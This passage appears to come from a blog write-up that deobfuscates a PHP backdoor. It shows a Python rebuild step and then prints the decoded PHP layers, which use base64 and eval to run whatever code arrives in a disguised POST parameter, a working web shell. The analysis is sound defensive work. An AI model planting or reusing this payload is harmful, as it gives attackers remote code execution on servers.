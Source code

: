 order= [59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]

do_me = ""
for i in range(0,len(order)):
    do_me += terms[order[i]]

print do_me
{% endcodeblock %}

Produces the following PHP code:
{% codeblock lang:php %}
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65"; // base64_decode
eval($___($__));
{% endcodeblock %}

Contents of ``$_`` and ``$__`` are clearly encoded in ``base64`` and  ``$___`` is ``base64_decode``. Base64 can be decoded in Python by calling ``base64.b64decode``.
Line #4 can be re-written as 

{% codeblock lang:php %}

eval(base64_decode('JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7'));

// result

$code=base64_decode($_);    eval($code);
